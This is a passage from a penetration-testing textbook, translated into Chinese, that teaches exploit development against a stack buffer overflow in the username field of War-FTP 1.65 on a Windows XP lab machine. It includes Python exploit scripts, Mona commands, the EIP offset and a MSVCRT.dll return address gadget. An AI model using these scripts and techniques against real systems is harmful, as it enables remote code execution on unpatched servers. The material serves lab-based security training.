## 第十七章. Windows 中的基于栈的缓冲区溢出

在本章中，我们将研究如何利用 Windows 平台 FTP 服务器的一个旧版本中的基于栈的缓冲区溢出问题。正如我们在第十六章中所做的那样，我们将尝试覆盖在调用函数时保存在栈上的返回指针，如图 16-3 中所示。当`main`函数调用`function1`时，下一条要执行的指令会被保存在栈上，并且会在栈中为`function1`添加栈帧。

`function1`的局部变量大小是在应用程序编译时确定并固定的。为这些局部变量“预留”的栈空间大小也是固定的。这种预留被称为*栈缓冲区*。如果我们在栈缓冲区中放入超过其容量的数据，就会导致缓冲区溢出。然后，我们可能会覆盖保存的返回地址，该地址位于栈缓冲区之后，并接管程序的执行控制。（有关此过程的详细回顾，请参见第十六章。）

在第一章中，我们在 Windows XP 目标机器上安装了 War-FTP 版本 1.65，但我们没有启动它。在之前的章节中，我们已经利用了 FileZilla FTP 服务器，如果你一直跟着教程走，那么这个 FTP 服务器仍然在运行。在我们使用 War-FTP 之前，需要通过 XAMPP 控制面板停止 FileZilla FTP 服务器。这将为 War-FTP 打开 TCP 端口 21。在 Windows XP 桌面上双击其图标打开 War-FTP（见图 17-1），然后点击 War-FTP 窗口左上角的闪电图标使其上线（见图 17-2）。

图 17-1. War-FTP 图标

## 搜索 War-FTP 的已知漏洞

在 Google 上搜索 War-FTP 1.65 的已知漏洞时，找到了以下关于*SecurityFocus.com*上的信息：

> War-FTP 用户名基于栈的缓冲区溢出漏洞
> 
> War-FTP 容易受到基于栈的缓冲区溢出漏洞的影响，因为它在将用户提供的数据复制到大小不足的缓冲区时没有正确检查数据边界。
> 
> 利用此问题可能导致拒绝服务条件，并在应用程序上下文中执行任意机器代码。

在第十六章中，我们通过提供的输入溢出了一个函数的局部变量，并将执行重定向到我们选择的内存位置。根据*SecurityFocus.com*提供的信息，看起来我们可以对 War-FTP 1.65 做类似的操作。在本章中，我们将手动利用 War-FTP 1.65 的基于堆栈的缓冲区溢出漏洞，该漏洞出现在 FTP 登录的用户名字段中。现在我们使用的是一个实际的程序，而不是示例代码，我们将学习更多关于编写实际漏洞利用的知识。例如，这一次我们不能简单地将执行重定向到另一个函数；相反，我们需要在攻击字符串中引入要执行的指令。

开始之前，确保 War-FTP 1.65 已经在你的 Windows XP 虚拟机上打开并运行。（如图 17-2 所示，GUI 左上角的闪电图标表示服务器正在监听传入的连接。）

我们要利用的问题特别危险，因为攻击者无需登录 FTP 服务器即可发起攻击。因此，我们无需向 FTP 服务器添加任何合法用户，攻击就能生效。

在我们深入并开始尝试利用 War-FTP 之前，让我们将它连接到调试器。Immunity Debugger 应该已经安装在你的 Windows XP 目标机器的桌面上，因为我们在第一章中安装过它。如果没有，请按照第一章中的说明来设置 Immunity Debugger 和 Mona 插件。像 GDB 一样，Immunity Debugger 将允许我们在尝试利用 War-FTP 时查看内存的内部结构。不幸的是，我们没有源代码来帮助我们成功利用漏洞，但通过在内存中观察程序并发送攻击字符串，我们仍然能够开发出一个有效的漏洞利用。

图 17-2. War-FTP 1.65 GUI

启动 Immunity Debugger，打开**文件**菜单，选择**附加**。我们想要将 Immunity Debugger 附加到正在运行的 War-FTP 进程，进程列表中显示了它，见图 17-3。高亮选择 War-FTP 1.65，然后点击**附加**。

图 17-3. Immunity Debugger 界面中的进程列表

当 Immunity Debugger 首次附加到一个进程时，它会暂停该进程的执行。如果在任何时候你的利用代码突然停止工作，请检查确保进程仍在运行。暂停的进程无法接收传入连接，正如你在 Immunity Debugger 窗口的右下角看到的 图 17-4 中所示，进程处于暂停状态。点击屏幕左上角的**播放**按钮，让进程继续运行。

图 17-4. War-FTP 在 Immunity Debugger 中暂停。

在 Immunity Debugger 中运行 War-FTP 时，我们可以找出如何利用其缓冲区溢出漏洞。

## 导致崩溃

在 第十九章 中，我们将使用一种叫做 *模糊测试* 的技术来寻找程序中的潜在漏洞，但现在，按照我的指导，使用特定的攻击字符串来让程序崩溃。在 FTP 登录的用户名字段中，我们将发送一个包含 1,100 个 *A* 的字符串，而不是一个用户名。与我们在前一个示例中本地攻击程序不同，这次我们将在 Kali Linux 中创建我们的利用代码，并将其设置为通过网络与 FTP 服务器进行通信。示例 17-1 展示了一个初步的利用代码，能够导致 War-FTP 程序崩溃。

### 注意

我们的利用示例是用 Python 编写的，但如果你更愿意使用其他语言，它们很容易移植到其他语言中。

示例 17-1. Python 利用代码导致 War-FTP 崩溃

```
root@kali:~# cat ftpexploit
#!/usr/bin/python
import socket
buffer = "A" * 1100
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) ❶
connect=s.connect(('192.168.20.10',21)) ❶
response = s.recv(1024)
print response ❷
s.send('USER ' + buffer  + '\r\n') ❸
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

在 示例 17-1 中，我们首先导入了 socket Python 库。接下来，我们创建一个名为*buffer*的字符串，其中包含 1,100 个*A*，并在 ❶ 设置一个 socket 来连接到我们运行 War-FTP 服务器的 Windows XP 机器的 21 端口。然后，在 ❷ 处，我们接收并打印出 FTP 服务器的横幅信息。我们的利用代码接着发送 `USER` 命令，并用 1,100 个 *A* 作为用户名 ❸，希望导致 FTP 服务器崩溃。

如果服务器响应并请求我们的密码，利用代码准备好使用密码 *PASSWORD* 完成连接。然而，如果我们的利用成功了，即使我们的凭据有效也无关紧要，因为程序会在完成登录过程之前崩溃。最后，我们关闭我们的 socket，利用代码结束。确保 Python 脚本是可执行的，可以使用 `chmod +x` 命令，并按照下面的示例运行利用代码。

```
root@kali:~# chmod +x ftpexploit
root@kali:~# ./ftpexploit
220- Jgaa's Fan Club FTP Service WAR-FTPD 1.65 Ready
220 Please enter your user name.
331 User name okay, Need password.
```

如同之前的示例一样，我们希望通过一串 *A* 字符来覆盖保存的返回地址并导致程序崩溃。War-FTP 服务器发送欢迎横幅，提示我们输入用户名，然后询问密码。查看 Immunity Debugger 中的 War-FTP，如图 17-5 所示，看看我们的利用是否成功导致崩溃。

图 17-5. 由于缓冲区溢出，War-FTP 崩溃。

在我们运行利用代码后，我们看到 War-FTP 因访问违规而暂停，并尝试在 `41414141` 处执行指令。根据我们在第十六章的 Linux 缓冲区溢出示例中学到的知识，这个结果应该是熟悉的。一个返回地址被我们的长 *A* 字符串覆盖，因此当函数返回时，`41414141` 被加载到 EIP 寄存器中。程序试图在该内存位置执行指令，而该位置超出边界并导致崩溃。

## 定位 EIP

如同之前的示例，我们需要知道我们字符串中的哪四个 *A* 字符正在覆盖返回地址。不幸的是，1,100 个 *A* 字符比我们在前一章使用的 30 个要多，所以在内存中逐个计数变得更加困难。此外，我们无法确定我们在堆栈上看到的第一个 *A* 字符是否是作为利用的一部分发送的第一个 *A* 字符。

传统上，下一步是再次通过输入 550 个 *A* 字符后接 550 个 *B* 字符来使程序崩溃。如果程序在 EIP 中出现 `41414141`，则表示返回地址在前 550 字节处发生了覆盖；如果程序在 EIP 中出现 `42424242`，则说明覆盖发生在后半部分。接下来，将问题字符串的那一半分为 275 个 *A* 字符后接 275 个 *B* 字符。通过这种缓慢但可靠的方法，可以逐步缩小确切位置。

### 生成循环模式以确定偏移量

幸运的是，我们可以使用 Mona 生成一个独特的循环模式，在仅一次迭代中找到返回地址覆盖的正确四个字节。要使用 Mona 完成此任务，请在 Immunity Debugger 窗口的底部输入 **`!mona pattern_create`**，并将长度设置为 **1100**，如图 17-6 所示。

图 17-6. 在 Mona 中使用 `pattern_create`

1,100 字符的循环模式被写入文件 *C:\logs\war-ftpd\pattern.txt*，如示例 17-2 所示。

示例 17-2. `pattern_create` 命令的输出

```
=============================================================================
  Output generated by mona.py v2.0, rev 451 - Immunity Debugger
  Corelan Team - https://www.corelan.be
=============================================================================
  OS : xp, release 5.1.2600
  Process being debugged : war-ftpd (pid 2416)
=============================================================================
  2015-11-10 11:03:32
=============================================================================

Pattern of 1100 bytes :
-----------------------

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1
Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7
Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3
Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9
An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5
Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1
As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7
Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3
Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9
Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5
Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1
Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7
Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3
Bk4Bk5Bk
```

我们将用在示例 17-2 中显示的唯一模式替换掉这一长串的* A *。但在再次运行漏洞利用之前，我们需要从上次崩溃中重新启动 War-FTP。在 Immunity 调试器中，点击**调试** ▸ **重新启动**，然后按下**播放**按钮并点击闪电图标，指示 War-FTP 开始监听网络。（每次 War-FTP 崩溃后需要重新启动时，都需要按照这些步骤进行。）或者，您可以关闭 Immunity 调试器，手动重新启动 War-FTP，然后将新进程附加到调试器中。将漏洞利用中的缓冲区值替换为示例 17-2 中的模式，并用引号将其括起来，使其成为 Python 中的字符串，如示例 17-3 所示。

### 注意

如果 War-FTP 因*未知的用户数据库格式*错误而拒绝重新启动，找到并删除 War-FTP 在桌面上创建的*FtpDaemon.dat*和/或*FtpDaemon.ini*文件。这应该能解决问题，War-FTP 应该能正常启动。

示例 17-3. 带有循环模式的漏洞利用

```
  root@kali:~# cat ftpexploit
  #!/usr/bin/python
  import socket
❶ buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2
  Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8
  Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4
  Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0
  Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6
  Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
  Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ap3Ar7Ar8
  Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4
  Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Ax2Ax3Ax4
  Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0
  Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7
  Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3
  Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9
  Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5
  Bk"
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect=s.connect(('192.168.20.10',21))
  response = s.recv(1024)
  print response
  s.send('USER ' + buffer  + '\r\n')
  response = s.recv(1024)
  print response
  s.send('PASS PASSWORD\r\n')
  s.close()
```

现在重新运行漏洞利用，使用从❶开始的生成模式，替换掉 1,100 个* A *。

```
root@kali:~# ./ftpexploit
220- Jgaa's Fan Club FTP Service WAR-FTPD 1.65 Ready
220 Please enter your user name.
331 User name okay, Need password.
```

在使用 Metasploit 的模式运行漏洞利用后，回到 Immunity 调试器，如图 17-7 所示，查看 EIP 中包含的值，并找出我们在攻击字符串中覆盖返回地址的位置。

图 17-7. 查找返回地址覆盖

War-FTP 再次崩溃，但这次 EIP 包含了我们生成的四个字节模式：`32714131`。我们可以使用 Mona 来确定`32714131`的 ASCII 等效值在 1,100 字符的循环模式中的准确位置。输入**`!mona pattern_offset 32714131`**可以仅获取偏移量，或者在 Immunity 调试器提示符下输入**`!mona findmsp`**，如图 17-8 所示，让 Mona 对所有寄存器和内存中的模式实例执行额外分析。

图 17-8. 查找 Mona 中的模式偏移

Mona 在内存中找到了循环模式的实例。命令的输出被写入到*C:\logs\war-ftpd\findmsp.txt*中。部分输出如下所示。

```
EIP contains normal pattern : 0x32714131 (offset 485)
ESP (0x00affd48) points at offset 493 in normal pattern (length 607)
EDI (0x00affe48) points at offset 749 in normal pattern (length 351)
EBP (0x00affda0) points at offset 581 in normal pattern (length 519)
```

### 验证偏移量

根据 Mona 的分析，我们的返回地址覆盖发生在攻击字符串的 485 字节位置。我们可以通过示例 17-4 来验证这一点。

示例 17-4. 验证 EIP 偏移

```
  root@kali:~# cat ftpexploit
  #!/usr/bin/python
  import socket
❶ buffer = "A" * 485 + "B" * 4 + "C" * 611
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect=s.connect(('192.168.20.10',21))
  response = s.recv(1024)
  print response
  s.send('USER ' + buffer  + '\r\n')
  response = s.recv(1024)
  print response
  s.send('PASS PASSWORD\r\n')
  s.close()
```

现在我们将创建一个攻击字符串，包含 485 个*A*、4 个*B*和 611 个*C*，如示例 17-4 中的❶所示。将新的字符串放入后，如果程序崩溃时 EIP 包含`42424242`，我们就知道找到了正确的返回地址四个字节。（记得在重新运行攻击前先在 Immunity Debugger 中重启 War-FTP。）现在，检查 EIP，如图 17-9 所示。

正如预期的那样，War-FTP 再次崩溃，这次 EIP 中是`42424242`。这个结果确认了我们找到了攻击字符串中返回地址的位置。接下来，我们需要找到一个位置来重定向执行并利用这个缓冲区溢出漏洞。

 图 17-9. War-FTP 崩溃，EIP 填充了 B

## 劫持执行

在第十六章中讨论的利用示例中，我们将执行重定向到另一个函数。不幸的是，由于我们没有 War-FTP 的源代码来查看潜在有趣的代码，这次我们将采用一种更典型的利用开发技术。我们将不再将执行重定向到程序的其他部分，而是引入我们自己的指令，并将执行重定向到攻击字符串的一部分。

首先，我们需要找出在崩溃时是否可以轻松访问攻击字符串的一部分。请回顾一下`!mona findmsp`命令在*C:\logs\warftp-d\findmsp.txt*中的输出，如下所示。

```
EIP contains normal pattern : 0x32714131 (offset 485)
ESP (0x00affd48) points at offset 493 in normal pattern (length 607)
EDI (0x00affe48) points at offset 749 in normal pattern (length 351)
EBP (0x00affda0) points at offset 581 in normal pattern (length 519)
```

除了控制 EIP 外，寄存器 ESP、EDI 和 EBP 也指向攻击字符串的一部分。换句话说，我们的攻击字符串决定了这些寄存器的内容，没有任何东西能阻止我们将攻击字符串的一部分（当前崩溃中的*C*）替换为 CPU 可以执行的有用指令。

我们可以看到，ESP 的内存地址是`00AFFD48`，而 EBP 的内存地址稍微高一些，是`00AFFDA0`。EDI 的地址是`00AFFE48`。我们可以将执行重定向到这些位置中的任何一个，但是由于较低的地址更靠近栈的顶部，我们可以为指令提供更多空间。

### 注意

此外，请注意，ESP 并未直接指向我们*C*的开始位置。我们保存的返回指针覆盖位于模式中的第 485 个字节，但 ESP 在 493 位置，距离有 8 个字节（4 个字节用于返回地址和 4 个字节用于*C*）。

右键点击 Immunity Debugger 窗口右上方的**ESP**，选择**Follow in Stack**。栈会显示在 Immunity Debugger 窗口的右下角。向上滚动几行，如图 17-10 所示。

请注意，ESP 上方的那一行也包含了四个*C*，而在其上方则有四个*B*，表示返回地址。这告诉我们我们需要在攻击字符串中的*C*处开始我们的恶意指令（因为 ESP 指向的是*C*的四个字节），否则我们的 shellcode 的前四个字节将会被跳过。（这种情况会经常出现，因为这四个*C*是由调用约定造成的，表示该函数已经清理了参数。）

### 注意

调用约定是编译器中实现的一组规则，描述了子函数如何从其调用函数接收参数。一些约定会导致调用函数从栈中移除参数，而另一些约定则规定子函数必须移除参数。后一种约定将导致一个或多个双字（根据参数的数量）在栈上自动跳过，如图 17-10 所示，一旦子函数结束。

图 17-10. ESP 被攻击字符串控制

现在我们可以将`00AFFD48`直接放入返回地址，替换我们的*C*为 shellcode，这样我们就有了一个完整的漏洞利用，对吗？差不多，但还不完全正确。不幸的是，如果我们将地址`00AFFD48`硬编码到返回地址中，漏洞利用可能在我们这里能够正常工作，但在其他情况下却可能无法使用——而我们希望它尽可能普遍地工作。正如我们在第十六章中看到的，像 ESP 这样的寄存器的位置可能会根据程序因素（如提供的参数的长度）发生变化，或者因为栈与线程相关联，这意味着下一次攻击时栈地址可能会不同。幸运的是，跳转到 CPU 寄存器以执行其内容的汇编语言指令是`JMP ESP`（或者根据需要使用其他寄存器名称）。在未启用 ASLR 的操作系统中，例如我们的 Windows XP SP3 目标，Windows DLLs 每次都会加载到相同的内存位置。这意味着如果我们在 Windows XP 目标的可执行模块中找到`JMP ESP`，它应该在每台 Windows XP SP3 英文版机器上都在相同的位置。

事实上，`JMP ESP`并不是我们唯一的选择。只要我们最终能够将执行指向 ESP，我们就可以使用与`JMP ESP`等价的指令，甚至可以使用一系列指令。例如，`CALL ESP`也可以工作，或者`PUSH ESP`后跟`RET`，这样就可以将执行转到 ESP 中的内存地址。

我们可以通过命令`!mona jmp -r esp`在 War-FTP 的可执行模块中找到所有`JMP ESP`及其逻辑等价物，如图 17-11 所示。

图 17-11. 使用 Mona 查找`JMP ESP`

结果写入到*C:\logs\war-ftpd\jmp.txt*。我们得到了 84 个可能的`JMP ESP`（或等效）指令。有些可能包含不良字符（如本章后面讨论的那样）——我们应该选择哪些指令呢？根据经验，优先选择属于应用程序本身的模块，而不是操作系统。如果这不可能，尝试选择相对稳定的模块，如*MSVCRT.dll*，因为与其他 Windows 模块相比，Windows 补丁对该模块的更改非常少（尽管仍有可能根据操作系统的语言进行更改）。Mona 在*MSVCRT.dll*中找到的`JMP ESP`指令如下所示。

```
0x77c35459 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
0x77c354b4 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
0x77c35524 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
0x77c51025 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
```

让我们使用第一个：`PUSH ESP`，然后在`0x77C35459`处出现`RET`。如第十六章所示，我们可以设置断点，在我们到达重定向执行到 ESP 的指令时暂停执行，并在替换*C*为待执行指令之前确保一切正常。使用命令**`bp`** **`0x77C35459`** 在免疫调试器中设置一个断点，如图 17-12 所示。（要查看所有当前设置的断点，请在免疫调试器中转到**视图** ▸ **断点**。）

图 17-12. 免疫调试器中的断点

现在，将攻击字符串中的四个*B*替换为指向 ESP 重定向位置的地址，如示例 17-5 所示。

示例 17-5. 使用来自可执行模块的返回地址

```
root@kali:~# cat ftpexploit
#!/usr/bin/python
import socket
buffer = "A" * 485 + "\x59\x54\xc3\x77" + "C" * 4 + "D" * 607 ❶
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

准备好断点后，我们将新的返回地址放在攻击字符串的正确位置，位于❶处，并将 611 个*C*替换为四个*C*，然后是 607 个*D*，以补偿 ESP 前的攻击字符串的四个字节。将攻击字符串放置好后，针对 War-FTP 运行漏洞，看看是否能够在免疫调试器中达到我们的断点，如图 17-13 所示。

图 17-13. 我们达到了断点。

完美——注意到在免疫调试器窗口底部，我们击中了断点。

### 注意

如果你忘记考虑字节序，可能无法达到断点；相反，程序会在`5954C377`处因访问冲突而崩溃。确保将字节转换为小端格式。

